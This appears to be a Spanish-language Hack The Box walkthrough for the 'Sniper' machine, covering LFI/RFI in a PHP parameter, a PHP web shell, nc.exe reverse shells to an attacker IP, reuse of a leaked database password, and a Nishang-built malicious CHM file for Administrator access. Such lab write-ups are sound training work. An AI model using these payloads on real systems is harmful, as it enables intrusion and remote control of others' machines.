 ```yaml
---
layout: post
title: Sniper
date: 2022-11-29
categories: ["HTB"]
thumbnail: "assets/images/Sniper.png"
---
```


# Sniper [ Hack The Box ]

### Reconocimiento

##### Descubrimiento de puertos y reconocimiento básico
- `nmap -sS --min-rate 5000 10.10.10.151 -oG allPorts`
- `nmap -sCV -p80,135,139,445,49667 10.10.10.151 -oN targeted`

No vemos nada interesante, sigamos investigando.

### Inspección

Cuando entramos en la página vemos varios apartados, sólo dos de ellos redireccionan a una ruta diferente del sistema, el apartado `Our Services` tiene un parámetro llamado `lang` el cual apunta a un archivo `PHP` de diferente idioma, vamos a ver si es vulnerable a `LFI`.

Para ello cambiaremos `lang=blog-en.php` por `lang=\windows\win.ini`, la página se nos queda en blanco, si inspeccionamos el código de la página veremos al final del todo el resultado, por lo que es vulnerable.

Vamos a probar si también es vulnerable a `RFI`. Para ello nos montaremos un servidor con el demonio de `Samba`, de lo contrario no funcionará. Crearé un archivo con una frase y lo meteré en la carpeta de `Samba`, teniendo esto cambiaremos el parámetro anterior por `lang=\\10.10.14.15\test.txt`.

Bien! Vemos que también es vulnerable a `RFI`, vamos a crearnos una Web Shell para poder ejecutar comandos en la Web, para ello crearemos el siguiente archivo en `PHP`:

```
<?php system($_REQUEST['cmd']); ?>
```

En mi caso lo llamé `cmd.php` para identificarlo mejor. Una vez creado lo llevamos a la carpeta compartida por `Samba` y cambiaremos de nuevo el parámetro `lang`.

- `http://10.10.10.151/blog?lang=\\10.10.14.15\share\cmd.php&cmd=whoami`


```
</html>
nt authority\iusr
</body>
</html>
```
Bien! Ya tenemos ejecución remota de comandos!

### Shell

Para obtener la Shell utilizaremos el archivo `PHP` que nos habíamos creado más `NC`,
de tal manera que el comando que ejecutaremos será NC para entablarnons la conexión.

Para ello utilicé la versión de `NC` de `32 bits`, el cual pude encontrar en [`GitHub`](https://github.com/int0x33/nc.exe/blob/master/nc.exe). Una vez descargado lo volveremos a copiar en la carpeta compartida de `Samba`.

Una vez todo lo anterior esté preparado nos pondremos en escucha por el puerto que queramos, en mi caso `4444`.

- `rlwrap -cAr nc -nlvp 4444`

Bien, ahora podemos pasar de nuevo a la web, pero ahora cambiaremos un poco el anterior comando, dejando el parámetro `lang` así:

- `lang=\\10.10.14.15\share\cmd.php&cmd=\\10.10.14.15\share\nc.exe -e cmd 10.10.14.15 4444`

Tras unos segundos de espera veremos que nos pudimos entablar la conexión.

Fantástico! Ya estamos en la máquina como `IUSR`!

### Subida de privilegios #1

Bien, antes de ser administradores de la máquina tenemos que pasar por otro usuario, en este caso por `Chris`. Gracias a `C:\Users` pude ver a los usuarios, por eso sé que es `Chris`.

Con esto sabido inspeccionamos un poco el directorio `C:\inetpub\wwwroot\user`, vemo que hay un archivo llamado `db.php` el cual contiene una contraseña para conectarse a la Base de Datos. Nos copiamos la contraseña.

Una vez hecho esto nos pasamos a `PowerShell`, para ello ejecutamos `powershell` y ejecutamos `hostname` para ver el `HostName` de la máquina, ahora veremos para qué.

Para ver si la contraseña introducida es la correcta haremos lo siguiente:

```
PS C:\> $user = "Sniper\Chris"
PS C:\> $pass = "36mEAhz/B8xQ~2VM"
PS C:\> $secstr = New-Object -TypeName System.Security.SecureString
PS C:\> $pass.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
PS C:\> $cred = new-object -typename System.Management.Automation.PSCredential -
argumentlist $user, $secstr
PS C:\> Invoke-Command -ScriptBlock { whoami } -Credential $cred -Computer localhost
```

Como vemos al ejecutar el comando nos dice que somos `Chris`, por lo que la contraseña es correcta. Para ganar una Shell como `Chris` hay que hacerle un pequeño cambio al último comando ejecutado, de tal manera que llamaremos al `NC` que habíamos subido con anterioridad a `Samba`.

Antes de eso deberíamos ponernos en escucha con `NC`, en mi caso será por el puerto `443`. Ahora sí, podemos ejecutar el siguiente comando:

```
PS C:\> Invoke-Command -ScriptBlock { \\10.10.14.15\share\nc.exe -e cmd 10.10.14. 443 } -Credential $cred -Computer localhost
```
Estupendo! Ya tenemos una Shell como `Chris`!

### Subida de privilegios #2

Si nos vamos a la raíz veremos una carpeta llamada `Docs` y dentro de ella un archivo `TXT` con el nombre de `note.txt`. Vamos a mirar a ver qué nos dice:

> Hi Chris, Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
>
> Regards, Sniper CEO.

Como vemos le está diciendo a `Chris` que sus habilidades en `PHP` son muy malas, que por favor hable con `YamiTenshi` para que él le haga clases. También le dice que espera que esté preparado para la documentación de la nueva app, que la suelte aquí cuando la haya terminado.

Si nos vamos a las descargas de `Chris` veremos un archivo llamado `instructions.chm`, si queremos ese archivo nos lo tenemos que pasar a nuestra máquina `Windows`.

Una vez nos lo hayamos pasado veremos un docuemnto, en verdad no tiene ningún tipo de relevancia más allá de que es un archivo `CHM` y `Nishang` tiene una herramienta ([`Out-Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1)) que crea archivos `CMH` armados.

Para poder utilizar la herramienta nos la tenemos que descargar del repositorio de [`Nishang`](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) e importarlo en `PowerShell`, para ello haremos lo siguiente en nuestra máquina `Windows`:

- `Import-Module .\Out-CHM.ps1`

Una vez hecho lo anterior podemos pasar al siguiente paso, crear nuestro archivo `CHM` malicioso, para ello ejecutaremos lo siguiente:

- `Out-CHM -Payload "\windows\system32\spool\drivers\color\nc.exe -e cmd 10.10.14.15 4444" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"`

Como vemos estamos especificando una ruta, esa ruta será la que se utilizará en la máquina víctima y donde se alojará nuestro `NC`.

Se nos creará un `doc.chm`, lo vamos a pasar a nustra máquina de atacante y de ahí a la máquina víctima con `Samba`.

- `copy \\10.10.14.15\share\doc.chm \Docs\`

Bien, también nos copiaremos el `NC`, aunque en la carpeta que hayamos especificado antes:

- `copy \\10.10.14.15\share\nc.exe \windows\system32\spool\drivers\color\`

Bien! Ya estamos listos, nos ponemos en escucha con `NC` por el puerto especificado anteriormente:

- `rlwrap -cAr nc -nlvp 4444`

Enhorabuena! Estamos en la máquina como `Administrator`! Esto se nos ha complicado un poco!